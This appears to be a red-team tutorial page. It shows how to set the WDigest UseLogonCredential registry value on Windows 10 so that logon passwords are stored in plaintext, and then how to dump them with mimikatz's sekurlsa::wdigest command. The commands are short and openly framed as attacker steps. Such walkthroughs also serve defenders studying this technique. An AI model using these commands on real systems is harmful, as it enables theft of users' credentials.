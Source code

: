 # Forcing WDigest to Store Credentials in Plaintext

As part of WDigest authentication provider, Windows versions up to 8 and 2012 used to store logon credentials in memory in plaintext by default, which is no longer the case with newer  Windows versions. 

It is still possible, however, to force WDigest to store secrets in plaintext.

## Execution

Let's first make sure that wdigest is not storing credentials in plaintext on our target machine running Windows 10:

{% tabs %}
{% tab title="attacker@victim" %}
```csharp
sekurlsa::wdigest
```
{% endtab %}
{% endtabs %}

Note the password field is null:

![](../../.gitbook/assets/mimikatz-2.2.0-x64-oe.eo-5_13_2019-10_42_39-pm.png)

Now as an attacker, we can modify the following registry key to force the WDigest to store credentials in plaintext next time someone logs on to the target system:

{% tabs %}
{% tab title="attacker@victim" %}
```csharp
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1
```
{% endtab %}
{% endtabs %}

![](../../.gitbook/assets/mimikatz-2.2.0-x64-oe.eo-5_13_2019-10_44_54-pm.png)

Say, now the victim on the target system spawned another shell:

{% tabs %}
{% tab title="victim@local" %}
```csharp
runas /user:mantvydas powershell
```
{% endtab %}
{% endtabs %}

Running mimikatz for wdigest credentials now reveals the plaintext password of the victim user `mantvydas`:

![](../../.gitbook/assets/wdigestdemo.gif)

## References

{% embed url="https://p16.praetorian.com/blog/mitigating-mimikatz-wdigest-cleartext-credential-theft" %}



